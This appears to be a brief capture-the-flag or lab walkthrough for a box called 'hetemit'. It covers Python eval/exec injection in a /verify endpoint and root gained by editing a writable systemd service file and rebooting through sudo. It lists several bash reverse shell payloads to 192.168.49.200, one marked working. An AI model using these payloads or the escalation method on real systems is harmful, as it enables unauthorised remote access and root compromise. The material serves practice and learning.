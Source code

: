 ### Hints since I'm in rush

There are two webapps running on non-standard ports.

Focus on the /verify endpoint. Try different inputs in the code parameter.

Look at writable files and check your sudo permissions. 

### Webapps
`?code=XXX` first then change/covert to POST

1+1 to discover the SSRF

##### Python stuff
https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1

Exec()

exec() is similar to eval() as they both have the ability to execute Python code from a given string input. The following program could be exploited in the same way as above:
```
def addition(a, b):
  return exec("%s + %s" % (a, b))addition(request.json['a'], request.json['b'])
  ```

```payloads for Eval()
"a":"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#", "b":"2"
"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#"
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1') <--- working
```

### Foothold

```bash
[cmeeks@hetemit restjson_hetemit]$ pwd
pwd
/home/cmeeks/restjson_hetemit
```

### sudo -l
https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag



The answer can be simple. Just like how you're doing privilege escalation by using cronjobs. You find a writable file and put your payload in then wait.

`sudo -l` gives "/usr/sbin/halt", "/usr/sbin/reboot", "/usr/sbin/poweroff" that means one thing here. You can reboot the machine as ROOT.

So, you need to look for some writable configuration files that trigger when start/reboot. `find . -writable` on `/etc` or just run linpeas.

Maybe the file is owned by root, then you find the exec line add `ExecXXX: you evil payload here`.

Or change the owner of it if that's not triggered by root in default. `User: low_level_user -> root`


### Find all files that are writable by the current user
```bash
find . -writable
```

You have write privileges over /etc/systemd/system/pythonapp.service
/etc/systemd/system/pythonapp.service

re-shell got root